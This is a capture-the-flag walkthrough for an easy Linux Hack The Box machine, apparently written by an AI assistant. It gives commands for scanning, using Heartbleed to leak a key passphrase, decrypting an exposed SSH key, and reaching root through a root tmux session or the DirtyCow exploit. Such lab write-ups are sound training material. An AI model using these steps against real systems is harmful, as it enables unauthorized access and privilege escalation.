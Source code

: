 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

---

### 🔍 Recon & Enumeration

**Nmap Basic Scan:**
```bash
nmap -sC -sV -p- 10.10.10.79
```

Identified open ports:
- **80 [HTTP](HTTP)**: Apache/2.2.22 (Ubuntu)
- **443 (HTTPS)**: Vulnerable OpenSSL (Heartbleed, CVE-2014-0160)

**Nmap Vuln Scripts:**
```bash
nmap -p 80,443 --script vuln 10.10.10.79
```

Identified vulnerabilities:
- **Heartbleed (CVE-2014-0160)**
- **SSL POODLE (CVE-2014-3566)**
- **CCS Injection (CVE-2014-0224)**

Interesting directories:
- `/dev/`
- `/index/`

---

### 💔 Heartbleed Exploitation

Using a public Heartbleed exploit script, dump memory:

Search for base64 strings in the dump. One string found:
```bash
aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
```
Decoded:
```bash
heartbleedbelievethehype
```

---

### 📁 Web Directory Discovery

Accessing `/dev/`, locate a file named `hype_key` — an encrypted private key in hexdump format.

Steps:
```bash
xxd -r hype_key > hype.key
openssl rsa -in hype.key -out decrypted.key
```
When prompted, enter password: `heartbleedbelievethehype`

---

### 🔐 SSH Access

Attempt SSH with:
```bash
chmod 600 decrypted.key
ssh -i decrypted.key hype@10.10.10.79
```
If encountering `no mutual signature supported` error, use:
```bash
ssh -oPubkeyAcceptedAlgorithms=+ssh-rsa -i decrypted.key hype@10.10.10.79
```

---

### ⬆️ Privilege Escalation

#### Method 1: Tmux Session (Preferred)
- Check for running tmux sessions as root.
- Attach to existing root session:
```bash
tmux attach
```

#### Method 2: DirtyCow Kernel Exploit
- Upload `40839.c` to target
- Compile:
```bash
gcc 40839.c -o cowroot -pthread
```
- Execute to create root user `firefart`
- Switch user:
```bash
su firefart
```

---

### 🏁 Summary
- **Initial Access:** Exploit Heartbleed to extract passphrase
- **Lateral Movement:** Decrypt private SSH key for `hype`
- **Privilege Escalation:** Attach root tmux or use DirtyCow

---

Let me know if you'd like this turned into a PDF, or if you want visual diagrams for the two privilege escalation paths!

